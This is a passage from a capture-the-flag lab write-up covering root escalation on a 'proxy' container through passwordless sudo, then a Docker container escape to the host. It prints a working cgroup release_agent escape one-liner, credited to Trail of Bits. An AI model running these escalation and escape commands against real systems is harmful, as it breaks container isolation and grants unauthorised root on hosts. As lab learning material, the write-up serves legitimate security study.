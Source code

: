 `cat flag3.txt` to retrieve the flag,

# Proxy root & flag 4

> “What is the value found in /root/flag4.txt in the root directory of the third container, "proxy"?”
> 

webby is not the root user for this host. To access flag4 at /root we will need to escalate our privileges. Using `sudo -l` to check the sudo status of the current user shows that webby can in fact run all commands as sudo, without a password.

```bash
sudo -l
Matching Defaults entries for webby on proxy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User webby may run the following commands on proxy:
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
    (ALL) NOPASSWD: ALL
```

Due to this, it is simply a matter of `sudo su` to become root.

```bash
sudo su
root@proxy:/# cd /root
root@proxy:~# ls
flag4.txt
```

`cat flag4.txt` to retrieve the flag.

# Host machine & flag 5

> What is the value found in /flag5.txt on the host machine?
> 

To reach the host machine, a container escape will be needed. After researching container escapes on google, the following solution was found on [trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/):

 

```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash
 
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
